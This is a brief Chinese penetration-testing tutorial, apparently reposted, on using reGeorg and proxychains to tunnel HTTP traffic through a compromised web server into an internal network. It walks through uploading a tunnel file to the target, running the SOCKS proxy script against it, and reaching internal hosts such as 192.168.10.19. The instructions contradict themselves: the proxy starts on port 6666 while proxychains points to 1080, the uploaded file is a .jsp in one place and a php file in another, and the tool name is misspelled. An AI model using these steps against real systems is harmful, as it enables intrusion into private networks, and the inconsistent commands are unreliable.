

# reGeorg 结合 proxychains 代理链(HTTP 隧道)

> 原文：[http://book.iwonder.run/内网渗透/内网穿透/reGeorg/1.html](http://book.iwonder.run/内网渗透/内网穿透/reGeorg/1.html)

reGeory 适用于公网服务器只开放了 80 端口的情况。

reGeorg 是用 python 写的利用 Web 进行代理的工具，流量只通过 http 传输，也就是 http 隧道。

```
reGeorg 下载 https://github.com/sensepost/reGeorg 
```

 

上传对应语言版本的 tunnel 文件到服务器上。然后本地访问上传的源文件，即可在本地与远程主机上形成一个 http 的回路。命令如下：

```
python reGeorgSocksProxy.py -p 6666 -u http://目标站点/xxx.jsp //端口随便指定，只要不与本机开放端口冲突即可 
```

然后配置 proxychains 代理链的配置文件/etc/proxychains.conf ，将代理设置成本机的 1080 端口：

```
socks5 127.0.0.1 1080 
```

然后命令前面加上 proxychains 即可。如：

```
proxychains curl 192.168.10.19 
```

所以我们流量的走向是： 流量->本地 1080 端口->web 服务器的 80 端口(通过我们上传的 php 文件进行流量转发)->内网服务器->web 服务器的 80 端口->本地 1080 端口

